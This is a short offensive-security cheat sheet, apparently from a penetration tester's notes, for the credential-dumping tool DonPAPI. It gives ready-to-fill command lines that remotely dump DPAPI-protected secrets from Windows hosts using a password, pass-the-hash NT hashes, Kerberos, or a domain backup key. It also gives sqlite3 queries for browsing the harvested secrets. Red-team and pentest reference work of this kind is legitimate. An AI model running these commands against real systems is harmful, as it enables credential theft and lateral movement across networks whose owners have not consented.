 # DonPAPI

% DonPAPI, dpapi

#plateform/linux  #target/remote  #cat/CREDENTIAL-ACCESS/DPAPI

## list gathered
```bash
sqlite3  -readonly donpapi.db -cmd '.tables' ".exit"
```

## count gathered
```bash
sqlite3  -readonly donpapi.db -cmd 'select count(1) from <table>;' ".exit"
```

## show gathered
```bash
sqlite3  -readonly donpapi.db -cmd 'select * from <table>;' ".exit"
```

## Dump all secrets (localadmin creds)
```
DonPAPI <target>/<user>:<password>@<target>
```

## DonPAPI - Dump all secrets (localadmin pth)
```
DonPAPI --hashes :<NT> <target>/<user>@<target>
```

## Dump all secrets (kerberos)
```
DonPAPI -k <domain>/<user>@<target>
```


## DonPAPI - Dump all secrets with Domain Admin and PVK (pth)
run dpapi.py to get PVK
```
DonPAPI -pvk <pvk_path> -o <out_path> --hashes <LM>:<NT> <domain>/<user>@<target>
```
